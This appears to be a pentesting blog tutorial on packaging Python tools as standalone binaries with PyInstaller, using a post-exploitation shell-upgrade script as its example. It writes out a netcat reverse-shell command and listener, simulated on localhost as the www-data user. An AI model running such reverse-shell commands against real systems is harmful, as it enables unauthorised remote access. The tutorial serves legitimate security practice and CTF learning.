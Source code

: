 ```yaml
---
title: "Tutorial: Create Binary Versions of Python Tools"
date: 2020-11-07T15:34:30-04:00
categories:
  - tutorial
tags:
  - python
  - pentesting
  - tools
  - linux
  - windows
---
```


With **PyInstaller** you can create stand-alone binaries that run on machines that do not have Python installed.

On Linux it will create an executable ELF binary.  
On Windows it creates a P32 or P32+ exe.  

Despite the crude method of including an entire interpreter, the minimum file size for a 64bit ELF binary is around 4 MB and the Windows equivalent is around 7 MB. So only marginally worse than your average .NET Hello World /s.


## Cross-Compiling

Here comes the bad news, there is no cross-compiling build-in.  
If you want to create Windows binaries, then you will have to do so on Windows and the same is true for Linux.  

Also please note that it matter whether you use the 32bit or 64bit version of the Python interpreter. Using the 64bit Linux interpreter results in a 64bit ELF binary.

But I assume you have some VM's lying around that can be used.  
[Wine might also work](https://stackoverflow.com/a/35605479), but I have not tried that.


## Install

On linux you can just use `pip3 install PyInstaller` or `pip install PyInstaller` for the 2.7 version.

On Windows you can also use `python.exe -m pip install PyInstaller`.

I will use the 3+ version of Python for the following examples. But the process should be the same regardless of what version you use. Just make sure the Interpreter you use for compiling the binary is the same one the script would use.


## Example: Upgrade a Linux Reverse Shell

If you have done CTF's or network pentesting, then you have probably encountered this python snippet before: 

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This spawns a fully interactive pseudo-terminal that allows you to run commands such as `su` or `sudo`, which can be pretty handy if you were stuck with a semi-interactive reverse shell before.

There are other ways to spawn a fully-interactive shell besides python, but this will do as a simple example.

Let's create a standalone-binary version of this snippet.

First create a python script file `upgrade.py`:
```python
#!/usr/bin/env python3
import pty
pty.spawn("/bin/bash")
```

Use the following command in order to create a pyinstaller binary:

```bash
pyinstaller --onefile upgrade.py
```

The `--onefile` parameter tells pyinstaller that all libraries should be packed into the binary.

If this finishes successfully, then you will find the created binary in the /dist subfolder.

### Does It Work?

Make sure the created `upgrade` binary is executable (`chmod +x upgrade`).

Listen for a shell with netcat:

```bash
nc -vlnp 4455
```

We will simulate a reverse shell as user www-data using sudo.  
This of course assumes you have such a user on your system and the required sudo permissions.  

Do this in a second shell:
```bash
sudo -u www-data bash -c "/usr/bin/nc localhost 4455 -e /bin/bash"
```

In the first terminal you will receive the semi-interactive netcat reverse shell (added new lines for clarity):

```bash
$ nc -vlnp 4455
listening on [any] 4455 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33470

whoami
www-data

tty
not a tty

ls -l
total 4000
-rwxr-xr-x 1 kali kali 4092904 Jan 15 19:42 upgrade
```

Run our binary:

```bash
./upgrade
www-data@kali:/tmp/upgrade/dist$ tty
tty
/dev/pts/2
www-data@kali:/tmp/upgrade/dist$ 
www-data@kali:/tmp/upgrade/dist$ su kali
su kali
Password: hunter2

kali@kali:/tmp/upgrade/dist$
```

The `tty` command confirms our upgraded shell counts as a terminal. You should be able to do interactive commands like `su` now.